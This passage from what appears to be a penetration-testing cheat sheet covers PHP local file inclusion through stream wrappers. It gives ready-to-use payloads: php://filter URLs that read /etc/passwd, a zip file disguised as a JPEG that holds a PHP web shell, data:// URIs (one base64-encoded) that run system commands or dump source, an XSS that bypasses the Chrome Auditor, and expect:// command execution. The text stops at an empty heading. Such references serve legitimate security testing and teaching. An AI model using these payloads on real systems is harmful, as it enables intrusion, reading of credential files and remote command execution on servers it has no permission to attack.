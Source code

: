#### zlib \(compression\)

Can be chained with a **compression** wrapper for large files.

```text
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

To read the comppression data you need to decode the base64 and read the resulting data using:

```bash
php -a #Starts a php console
readfile('php://filter/zlib.inflate/resource=test.deflated');
```

**NOTE: Wrappers can be chained**

### Wrapper zip://

Upload a Zip file with a PHPShell inside and access it.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### Wrapper data://

```text
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

Note that this protocol is restricted by php configurations **`allow_url_open`** and **`allow_url_include`**

### Wrapper expect://

Expect has to be activated. You can execute code using this.

```text
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://
